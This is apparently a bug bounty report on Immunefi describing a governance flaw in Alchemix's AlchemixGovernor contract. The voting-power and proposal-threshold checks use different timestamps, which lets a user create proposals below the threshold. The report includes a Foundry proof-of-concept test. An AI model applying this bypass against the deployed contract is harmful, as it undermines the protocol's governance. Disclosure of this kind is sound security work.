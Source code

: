
# The user can propose with less voting power than proposalThreshold.

Submitted on Wed May 15 2024 21:55:34 GMT-0400 (Atlantic Standard Time) by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31277

Report type: Smart Contract

Report severity: Insight

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/AlchemixGovernor.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
The user can propose with less voting power than proposalThreshold.

## Vulnerability Details
This error arises from the difference between the timing of calculating votingPower and proposalThreshold.

L2Governor.sol
```
require(
            getVotes(_msgSender(), block.timestamp - 1) >= proposalThreshold(),
            "Governor: veALCX power below proposal threshold"
        );
```
the votingPower is calculated at `block.timestamp - 1`.

but 
```
function proposalThreshold() public view override(L2Governor) returns (uint256) {
        return (token.getPastTotalSupply(block.timestamp) * proposalNumerator) / PROPOSAL_DENOMINATOR;
    }
```
`proposalThreshold` is calculated at `block.timestamp`
In `block.timestamp`, `VotingEscrow.totalSupplyAtT` becomes smaller than at `block.timestamp - 1` point.
If a withdraw occurs at this point, it makes more changes.
An attacker may artificially carry out withdraw to make the `VotingEscrow.totalSupplyAtT` smaller.
Or the attacker can propose in the same transaction as soon as a user withdraw a large amount.

## Impact Details
By lowering the minimum unit price to create an offer, it makes it easier for an attacker to generate a malicious offer.
        
## Proof of concept
## Proof of Concept

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract AlchemixGovernorPoCTest is BaseTest {
    function setUp() public {
        setupContracts(block.timestamp);
    }

    function craftTestProposal()
    internal
    view
    returns (address[] memory targets, uint256[] memory values, bytes[] memory calldatas, string memory description)
    {
        targets = new address[](1);
        targets[0] = address(voter);
        values = new uint256[](1);
        values[0] = 0;
        calldatas = new bytes[](1);
        calldatas[0] = abi.encodeWithSelector(voter.whitelist.selector, usdc);
        description = "Whitelist USDC";
    }

    function testProposePoC1() public {
        uint256 targetTokenId = createVeAlcx(admin, TOKEN_1 * 4 - 5000, MAXTIME, false);
        uint256 userTokenId = createVeAlcx(beef, TOKEN_1 * 96, MAXTIME, false);
        uint256 votingPower = governor.getVotes(admin, block.timestamp);
        uint256 proposalThreshold = governor.proposalThreshold();

        // votingPower < proposalThreshold
        assertLt(votingPower, proposalThreshold, "votingPower >= proposalThreshold");

        hevm.startPrank(admin);

        hevm.warp(block.timestamp + 1);

        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();
        // this call is not failed.
        governor.propose(t, v, c, d, MAINNET);

        hevm.stopPrank();
    }

}
```